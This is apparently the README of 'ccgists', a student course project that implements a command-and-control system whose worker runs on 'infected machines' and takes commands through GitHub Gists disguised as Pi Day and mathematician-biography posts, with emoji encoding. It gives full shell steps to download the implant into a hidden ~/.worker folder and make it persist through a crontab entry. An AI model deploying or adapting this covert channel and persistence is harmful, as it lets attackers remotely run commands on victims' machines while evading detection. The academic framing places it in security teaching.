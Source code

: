 <a name="readme-top"></a>

[![Stargazers][stars-shield]][stars-url]
[![MIT License][license-shield]][license-url]
[![LinkedIn][linkedin-shield]][linkedin-url]

<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a href="https://github.com/andrsdt/ccgists">
    <img src="https://i.imgur.com/ZoJzgg1.png" alt="Logo" width="" height="80">
  </a>

</div>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>

<!-- ABOUT THE PROJECT -->

## About The Project

This repository contains the code for the **ccgists** project, which is composed of two independent projects:

- `controller`: a Python script that allows for centralized management of the C2 infrastructure. It allows the attacker to see the list of available agents, send commands to them and read the output of the commands.
- `worker`: a Python script that runs periodically on the infected machine and communicates with the controller to inform about its state. In case of pending commands, it executes them and sends the output back to the controller.

The communication is done entirely through GitHub Gists. There is a gist disguised as **a celebration for the Pi Day**, where infected computers will post their status. When the attacker sends a command to an infected machine, it creates a gist disguised as **a mathematician's biography** that will be used as a thread for that communication. Commands and outputs with that machine will be encoded as emojis.

<!-- GETTING STARTED -->

## Getting Started

We will first set up the infected machines, and then the controller.

For both machines, we will use a GitHub personal access token to authenticate the requests. This token will be used to do operations with gists, which will be the only communication channel between the infected machines and the controller. A token for my account can be found in the report in Google Docs for the subject, but note that it will create private gists on my account that won't be visible from the professor's account. It's better to provide your own token, you can create one in the [GitHub settings](https://github.com/settings/tokens?type=beta). Only the scope for managing gists is required.

### Installation

#### Infected machines

1. Download and unzip the latest release from the [releases page](https://github.com/andrsdt/ccgists/releases)

```sh
wget -q https://github.com/andrsdt/ccgists/releases/latest/download/worker.tar.gz
mkdir ~/.worker; tar -xf worker.tar.gz -C ~/.worker; rm worker.tar.gz
cd .worker
```

2. Create a virtual environment

```sh
python3 -m venv .venv
source .venv/bin/activate
```

3. Install the dependencies

```sh
pip install -r requirements.txt
```

4. Create the `.env` file with the GitHub Token

```sh
echo "GITHUB_TOKEN=<secret_token>" > .env
```

5. Run the worker

```sh
python3 ./dist/main.py
```

The script can be run with `python3 ./worker/dist/main.py` and it will do its routine tasks when executed. It can be scheduled to run periodically (for example, every 5 minutes) with `crontab` by running the following bash command:

```sh
crontab -l | { cat; echo "*/5 * * * * $HOME/.worker/.venv/bin/python3 $HOME/.worker/dist/main.py"; } | crontab -
```

#### Controller

The controller's entry point is a Python script in `controller/src/main.py`. The setup is similar to the script for infected machines:

1. Download and unzip the latest release from the [releases page](https://github.com/andrsdt/ccgists/releases)

```sh
wget https://github.com/andrsdt/ccgists/releases/latest/download/controller.tar.gz
mkdir ccgists; tar -xf controller.tar.gz -C ccgists
cd ccgists
```

2. Create a virtual environment

```sh
python3 -m venv .venv
source .venv/bin/activate
```

3. Install the dependencies

```sh
pip install -r requirements.txt
```

4. Create the `.env` file with the GitHub Token

```sh
echo "GITHUB_TOKEN=<secret_token>" > .env
```

5. Run the controller

```sh
python3 ./src/main.py
```

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- USAGE EXAMPLES -->

## Usage

The script is intuitive to use, and it will show a menu with the available options. The menu will show the available agents, and the user can select one of them to send commands to it. These will be processed as soon as the infected machine runs the script again.

![](https://i.imgur.com/JSsuHea.gif)

_For any doubt in the usage, do not hesitate to contact me_

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- LICENSE -->

## License

Distributed under the MIT License. See `LICENSE.txt` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- CONTACT -->

## Contact

Andrés Durán - [@andresdt](https://twitter.com/andresdt) - [andrez#0077](https://discord.com) - duranand@fit.cvut.cz

Project Link: [https://github.com/andrsdt/ccgists](https://github.com/andrsdt/ccgists)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->

[stars-shield]: https://img.shields.io/github/stars/othneildrew/Best-README-Template.svg?style=for-the-badge
[stars-url]: https://github.com/andrsdt/ccgists/stargazers
[license-shield]: https://img.shields.io/github/license/othneildrew/Best-README-Template.svg?style=for-the-badge
[license-url]: https://github.com/andrsdt/ccgists/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/andrsdt
